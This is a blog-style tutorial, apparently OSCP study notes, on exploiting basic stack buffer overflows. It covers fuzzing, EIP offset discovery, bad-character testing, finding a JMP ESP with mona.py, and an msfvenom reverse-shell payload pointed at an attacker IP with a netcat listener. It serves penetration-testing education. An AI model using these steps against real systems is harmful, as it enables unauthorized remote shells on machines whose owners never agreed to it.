 ```yaml
---
title:  "Basic Buffer Overflows"
header: "Basic Buffer Overflows"
categories: 
  - Tutorial
tags:
  - Hacking
---
```


A lot can be said about buffer overflows and they are perhaps the most daunting part of attempting the OSCP for most. However, as you&#39;ll find in most of your offensive hacking endeavors, it&#39;s all about experimentation and tweaking your process. Below are the notes I used to successfully exploit several applications (given they didn&#39;t have standard security such as ASLR or DEP) and serves as a good example of understanding a basic buffer overflow.

**Fuzz the application**

If you don&#39;t have access to the code and there aren&#39;t any publicly disclosed exploits then another viable option is to fuzz the application and see what happens. Fuzzing is essentially the act of sending malformed or unintended data to an application and watching to see if it behaves abnormally such as crashing. Keep in mind that just because you cause an application to crash doesn&#39;t necessarily mean that it&#39;s vulnerable but it should key you into paying closer attention to it.

- Run the application
- Attach the debugger ([Immunity Debugger](https://www.immunityinc.com/products/debugger/) is a good option) to the application
- Run your fuzzer
- Write a script to replicate the crash (this is where you&#39;ll set the size of the buffer)

**Find out which part of the buffer overwrites EIP**

So you'll need to know a few key pieces of controlling EIP to figure out exactly what we're doing here

The **EIP** (*Extended Instruction Pointer*) register controls the execution flow of the application. Think of it as a steering wheel of a car, you can direct it where to go.

The **ESP** (*Extended Stack Pointer*) is an indirect memory operand pointing to the top of the stack. This is the point where the instructions that use the stack, actually use it.

Here's a view of these values in Immunity  
![EIP & ESP Example](/assets/images/eip_esp_example.jpg)

There are two basic tactics when attempting at controlling the EIP  
*Binary Tree Analysis* (manual way) - essentially you split the buffer in a series of same characterws until you notice the EIP getting over-written
Example: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCCCCDDDDDDDDDD

*Unique String* (automated way) - send a unique string so you can see which 4 bytes are written in the EIP.
Example: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4

Naturally you are going to want to use the Unique String Method whenever possible as it can cut down on discovery time and possibly lead to fewer mistakes.

- Create a unique string that's the size of your buffer (pattern\_create.rb is great for this, comes with Kali!)
  - Usage: `pattern\_create.rb 2200` <-- size of your buffer
- Place the output inside your script
- Run script and locate EIP's bytes  
![EIP](/assets/images/eip.jpg)
- Use pattern\_offset.rb to find the position from your pattern\_create script
  - Usage: `pattern-offset.rb 13731415` <--EIP value from crash
- It should return your location (something like 1403). This means that on the 1404th byte is where you can direct EIP. A good way to test this is to send a certain amount of A&#39;s, B&#39;s, and C&#39;s to see where the values are located
  - Example: buffer = &quot;A&quot;\*1403 + &quot;B&quot;\*4 + &quot;C&quot;\*793 &lt;----last part is to fulfill the orginial 2200 buffer

**(Optional) Increase the buffer size to allow room for shellcode**

The average size for shellcode is around 350-400 so you&#39;ll need to have roughly that much space left in the buffer. If you don&#39;t have enough then it&#39;s a good idea to increase the padding on your buffer either before or after the EIP director bytes.

**Discover bad characters**

To me this can be the most frustrating part of the process and often where people slip up. It&#39;s not so much that it&#39;s difficult but rather just tedious and attention to detail can go a long way. The purpose in discovering bad characters is to ensure that our shellcode doesn&#39;t get modified (truncated, character replaced, etc.). As a side note null values and carriage returns are notoriously bad characters.

- Place the below character listing in your fuzzer
`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13
\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26
\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39
\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c
\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72
\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85
\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98
\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe
\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1 
\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4 
\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7 
\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`  
- Run the fuzzer
- Look at memory location of ESP
- Discover where the increments are broken, malformed, omitted
- Remove the character from the buffer and continue until you&#39;ve completed them all

Example  
![Bad Characters](/assets/images/badchars.jpg)  

**Redirect EIP**

When the application starts each time you&#39;ll notice that your pointers are at different locations. To ensure that we always hit our shellcode, we&#39;ll need a solid/static location with each restart. There are a couple of requirements in this instance (this is just a basic example). Needs to be readable and executable and can&#39;t have DEP or ASLR enabled. A good place to look is any accompanying DLL&#39;s with the application. A good tool to help discover potential modules is mona.py, which once again comes with Kali.

- Once you&#39;ve found a solid module, you&#39;ll want to search for JMP ESP&#39;s within immunity
  - Search &gt; Sequence of Commands &gt; &quot;push esp (next line) retn&quot;
  - Search for jmp esp in the whole DLL
  - If you can&#39;t find one then the nasm\_shell command is FFE4 and you should search for that using mona.py
    - Usage: `!mona find –s "\xff\xe4" –m <vulnerable module>`  
![Mona](/assets/images/mona.jpg)  
  - Test and place the location within your fuzzer  
![JMP ESP](/assets/images/jmp_esp.jpg)  

By redirecting the EIP to our newly found address, at the time of the crash, a JMP ESP instruction will be executed, which will lead the execution flow into our shellcode

**Generate Shellcode**

Your shell code can be just about anything malicious that you want to do on the asset, but its typically used for returning a shell (but don&#39;t forget about other options like adding users, altering data, etc.). A basic tool to help with generating shellcode is msfvenom which is part of the Metasploit framework.

- In our example we&#39;re going to use a reverse shell and encode it with shikata\_ga\_nai (I highly recommend to explore some of the other encoders as they may be the only options with your bad characters combination)
  - Usage:  `msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT NUMBER> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "<BAD CHARACTERS>`  
![Shellcode](/assets/images/shellcode.jpg)  
- Make note of the size of your shellcode as you&#39;ll need to account for it and ensure that you have the proper space
- Within your fuzzer, place a few NOP&#39;s (\x90) before the shellcode to ensure it has enough room to decode and it won&#39;t trip over itself

**Exploit**

You&#39;re ready to fire off your exploit! I recommend setting a breakpoint at the JMP ESP address to verify if the shellcode gets executed

- Set up a listener on the port number that you chose
  - Usage: `nc –lvp <PORT NUMBER>`  
- Fire off your script and if everything works right you should be presented with a reverse shell from your target  
![Reverse Shell](/assets/images/shell.jpg)  
